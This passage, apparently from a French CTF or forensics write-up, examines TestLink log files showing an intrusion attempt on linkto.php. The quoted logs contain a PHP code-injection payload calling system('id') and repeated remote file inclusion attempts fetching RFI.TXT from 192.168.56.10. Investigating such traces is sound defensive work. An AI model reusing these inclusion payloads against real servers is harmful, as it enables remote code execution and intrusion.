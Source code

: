 Concernant le dossier logs je trouve [assez facilement](http://forum.testlink.org/viewtopic.php?t=775) via *DuckDuckGo* le nom des fichiers de logs (*userlogX.log*).  

Le fichier *userlog0.log* contient clairement des traces d'une intrusion qui date du 18 septembre :  

```plain
[>>][5b8bfdb018519054420624][DEFAULT][/testlink/linkto.php][18/Sep/2 15:11:44]
        [18/Sep/2 15:11:44][WARNING][<nosession>][GUI]
                E_NOTICE
Undefined index: PiperCoinID - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:11:44][WARNING][<nosession>][GUI]
                E_WARNING
require_once(C:\xampp\php\pear): failed to open stream: Permission denied - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfdb018519054420624][DEFAULT][/testlink/linkto.php][18/Sep/2 15:11:44][18/Sep/2 15:11:44][took 0.210302 secs]
[>>][5b8bfdc5ef851940237118][DEFAULT][/testlink/linkto.php][18/Sep/2 15:12:05]
        [18/Sep/2 15:12:06][WARNING][<nosession>][GUI]
                E_NOTICE
Undefined index: PiperCoinID - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:12:06][WARNING][<nosession>][GUI]
                E_WARNING
require_once(C:\xampp\php\pear): failed to open stream: Permission denied - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfdc5ef851940237118][DEFAULT][/testlink/linkto.php][18/Sep/2 15:12:05][18/Sep/2 15:12:06][took 0.060086 secs]
[>>][5b8bfe0c70e54424473279][DEFAULT][/testlink/linkto.php][18/Sep/2 15:13:16]
        [18/Sep/2 15:13:16][WARNING][<nosession>][GUI]
                E_WARNING
require_once(&lt;?php system(&quot;id&quot;);?&gt;): failed to open stream: No such file or directory - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfe0c70e54424473279][DEFAULT][/testlink/linkto.php][18/Sep/2 15:13:16][18/Sep/2 15:13:16][took 0.070101 secs]
[>>][5b8bfeb3bf2a7839433030][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:03]
        [18/Sep/2 15:16:03][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:16:03][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfeb3bf2a7839433030][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:03][18/Sep/2 15:16:03][took 0.060087 secs]
[>>][5b8bfee0d8c41144646901][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:48]
        [18/Sep/2 15:16:48][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:16:48][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfee0d8c41144646901][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:48][18/Sep/2 15:16:48][took 0.070101 secs]
[>>][5b8bffca89aaa533144150][DEFAULT][/testlink/linkto.php][18/Sep/2 15:20:42]
        [18/Sep/2 15:20:42][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 58
        [18/Sep/2 15:20:42][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 58
```